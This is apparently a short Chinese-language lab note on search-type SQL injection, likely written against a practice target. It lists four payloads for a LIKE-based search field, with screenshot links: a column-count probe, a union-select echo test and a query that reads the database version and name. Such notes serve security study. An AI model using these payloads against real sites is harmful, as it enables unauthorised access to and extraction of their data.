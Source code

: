 ![image-20220206181843657](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202120918.png)

#### **搜索型注入**

```
%		//判断回显用户
vi%' order by 3 #	//判断字段数
vi%' union select 1,2,3 #		//回显点
vi%' union select version(),database(),3 #		//版本和当前库名
```

![image-20220206195611524](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202120259.png)

![image-20220206201152078](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202120752.png)

![image-20220206201304437](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202120192.png)
